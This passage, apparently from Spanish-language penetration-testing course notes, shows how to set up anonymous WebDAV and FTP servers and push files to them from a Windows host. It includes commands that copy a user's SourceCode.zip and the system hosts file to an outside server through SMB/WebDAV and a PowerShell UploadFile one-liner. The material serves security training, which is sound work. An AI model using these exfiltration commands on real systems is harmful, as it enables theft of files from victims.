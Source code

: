 ```bash
sherlock28@htb[/htb]$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

El comando anterior ejecutará el servidor WebDav en el puerto 80 con acceso anónimo al directorio `/tmp`.

### **Conectando al recurso compartido WebDav**

En el host de Windows, podemos conectarnos al recurso compartido usando la palabra clave `DavWWWRoot`, que es reconocida por Windows Shell para indicar que te conectas a la raíz de un servidor WebDav.

```powershell
C:\htb> dir \\192.168.49.128\DavWWWRoot
```

Este comando mostrará el contenido del recurso compartido en el servidor WebDav.

### **Subiendo Archivos usando SMB**

Para subir archivos al recurso compartido WebDav desde un host Windows, podemos usar el comando `copy`:

```powershell
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

O también podemos especificar un directorio específico en el servidor:

```powershell
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

## **Cargas FTP**

También es posible subir archivos usando FTP de manera similar a cómo se descargan archivos. Antes de empezar, podemos usar el módulo de Python **pyftpdlib** para iniciar un servidor FTP con permisos de escritura.

**Iniciando el servidor FTP**

```bash
sherlock28@htb[/htb]$ sudo python3 -m pyftpdlib --port 21 --write
```

Esto inicia un servidor FTP en el puerto 21 que permite cargas anónimas.

**Subiendo Archivos con PowerShell a un Servidor FTP**

Luego, desde un host de Windows, podemos usar una función de PowerShell para subir un archivo al servidor FTP.

### Cargar Archivos con PowerShell

Podemos subir un archivo usando PowerShell con el siguiente comando:

```powershell
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
